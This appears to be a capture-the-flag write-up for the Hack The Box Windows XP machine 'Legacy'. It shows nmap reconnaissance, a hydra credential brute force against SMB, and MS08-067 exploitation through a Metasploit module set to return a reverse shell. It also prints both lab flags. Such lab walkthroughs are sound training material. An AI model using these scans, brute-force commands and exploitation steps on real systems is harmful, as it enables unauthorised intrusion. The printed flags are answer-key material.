

+++
title = "Legacy"
date = "2023-11-12"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2017-03-15

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.4`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Legacy using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.4" -p-
```

```
<SNIP>
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.4" --top-ports "500"
```

```
<SNIP>
PORT     STATE         SERVICE
123/udp  open          ntp
137/udp  open          netbios-ns
138/udp  open|filtered netbios-dgm
445/udp  open|filtered microsoft-ds
500/udp  open|filtered isakmp
1025/udp open|filtered blackjack
1900/udp open|filtered upnp
4500/udp open|filtered nat-t-ike
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.4" -p "135,139,445" -sV
```

```
<SNIP>
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
<SNIP>
```

Let's do the same for the UDP ports.

```sh
❯ nmap -sU "10.10.10.4" -p "123,137,138,445,500,1025,1900,4500" -sV
```

```
<SNIP>
PORT     STATE         SERVICE      VERSION
123/udp  open          ntp          Microsoft NTP
137/udp  open          netbios-ns   Microsoft Windows netbios-ns (workgroup: HTB)
138/udp  open|filtered netbios-dgm
445/udp  open|filtered microsoft-ds
500/udp  open|filtered isakmp
1025/udp open|filtered blackjack
1900/udp open|filtered upnp
4500/udp open|filtered nat-t-ike
Service Info: Host: LEGACY; OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so `nmap` managed to determine that Legacy is running Windows XP, and
that its hostname is `LEGACY`.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.4" -p "135,139,445" -sC
```

```
<SNIP>
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:5b:bd (VMware)
|_clock-skew: mean: 5d00h57m39s, deviation: 1h24m50s, median: 4d23h57m39s
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-02-08T00:06:04+02:00
|_smb2-time: Protocol negotiation failed (SMB2)
<SNIP>
```

Let's also run them on the UDP services.

```sh
❯ nmap -sU "10.10.10.4" -p "123,137,138,445,500,1025,1900,4500" -sC
```

```
<SNIP>
PORT     STATE         SERVICE
123/udp  open          ntp
| ntp-info: 
|_  
137/udp  open          netbios-ns
| nbns-interfaces: 
|   hostname: LEGACY
|   interfaces: 
|_    10.10.10.4
138/udp  open|filtered netbios-dgm
445/udp  open|filtered microsoft-ds
500/udp  open|filtered isakmp
1025/udp open|filtered blackjack
1900/udp open|filtered upnp
4500/udp open|filtered nat-t-ike

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:5b:bd (VMware)
|_clock-skew: 5d01h57m50s
<SNIP>
```

## Services enumeration

### SMB

#### Exploring the shares

Let's try to list the SMB shares with a NULL session, since we have no
credentials at our disposal.

```sh
❯ smbclient -L "//10.10.10.4" -N
```

```
session setup failed: NT_STATUS_INVALID_PARAMETER
```

It failed.

Let's try common credentials then.

```sh
❯ hydra -L "/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt" -P "/usr/share/wordlists/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt" "10.10.10.4" "smb"
```

```
<SNIP>
1 of 1 target completed, 0 valid password found
<SNIP>
```

It failed too.

#### Known vulnerabilities

We don't know the credentials to connect to the SMB server. But maybe it's
vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.10.4" -p "445" --script "vuln"
```

```
<SNIP>
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
<SNIP>
```

According to the `smb-vuln-ms08-067` and `smb-vuln-ms17-010` scripts, Legacy
should be vulnerable to both
[MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
and
[MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010).

## Foothold ([MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067))

[MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
is a buffer overflow vulnerability in the Windows Server service, more
specifically a flaw in the path canonicalization code of `NetAPI32.dll`. The
Windows Server service is responsible for handling file and print sharing on
Windows systems, and allowing communication between network devices. By sending
a specific RPC request to the target system, an attacker can get RCE.

### Preparation

I'll use the Metasploit module `exploit/windows/smb/ms08_067_netapi` to
exploit this vulnerability, since it's non-trivial to do by hand.

The goal is to obtain a reverse shell.

I'll set the `payload` to
`payload/windows/shell_reverse_tcp`, the `RHOSTS` to `10.10.10.4`, the
`LHOST` to `10.10.14.4` and the `LPORT` to `9001`.

### Exploitation

No we can launch the exploit!

```sh
msf6 exploit(windows/smb/ms08_067_netapi) >
```

```
<SNIP>
C:\WINDOWS\system32>
```

It went off without a hitch.

However, I don't like Metasploit's shell, so I'll open my own on port `9002`.

## Getting a lay of the land

If we try to run `whoami`, we see that the command doesn't exist. However, we
can easily circumvent this problem by transferring `whoami.exe` to Legacy.

If we execute this binary, we discover that we got a foothold as
`NT AUTHORITY\SYSTEM`.

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture

What is Legacy's architecture?

```bat
C:\WINDOWS\system32> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
<SNIP>

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE      REG_SZ  x86
```

It's using x86. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Legacy.

```bat
C:\Windows\system32> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName ^
    && reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
<SNIP>

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName REG_SZ  Microsoft Windows XP


<SNIP>

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber  REG_SZ  2600
```

In fact, it's Windows XP build `2600`.

### Hotfixes

Let's retrieve the list of installed hotfixes.

```bat
C:\Windows\system32> for /f "tokens=7 delims=\" %a in ('reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Hotfix"') do @echo %a
```

```
Q147222
```

There's only one.

### Users

Let's enumerate all users.

```bat
C:\Windows\system32> net localgroup "Users" | find /V "NT AUTHORITY"
```

```
<SNIP>
```

There's no user.

What about the administrators?

```bat
C:\Windows\system32> net localgroup "Administrators" | find /V "NT AUTHORITY"
```

```
<SNIP>
Administrator
<SNIP>
```

There's only the built-in `Administrator`.

### Groups

Let's enumerate all groups.

```bat
C:\Windows\system32> net localgroup
```

```
System error 1312 has occurred.
<SNIP>
```

We get an error.

### NICs

Let's gather the list of connected NICs.

```bat
C:\Windows\system32> ipconfig /all
```

```
Windows IP Configuration

        Host Name . . . . . . . . . . . . : legacy
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : 
        Description . . . . . . . . . . . : VMware Accelerated AMD PCNet Adapter
        Physical Address. . . . . . . . . : 00-50-56-B9-99-73
        Dhcp Enabled. . . . . . . . . . . : No
        IP Address. . . . . . . . . . . . : 10.10.10.4
        Subnet Mask . . . . . . . . . . . : 255.255.254.0
        Default Gateway . . . . . . . . . : 10.10.10.2
        DNS Servers . . . . . . . . . . . : 1.1.1.1
                                            1.0.0.1
```

There's just an Ethernet interface.

### Flags

If we check `john`'s Desktop folder, we find the user flag.

```bat
C:\Windows\system32> type "C:\Documents and Settings\john\Desktop\user.txt"
```

```
e69af0e4f443de7e36876fda4ec7644f
```

And as usual, we can find the root flag in `Administrator`'s Desktop folder.

```bat
C:\Windows\system32> type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

```
993442d258b0e0ec917cae9e695d5713
```

# Afterwords



That's it for this box! 🎉

I rated both the user and root flags as 'Piece of cake' to obtain. The foothold
was extremely easy to identify and to exploit (thanks to Metasploit), and it
even granted us access to the system as `NT AUTHORITY\SYSTEM`, so there was no
need to escalate privileges afterwards.

Thanks for reading!
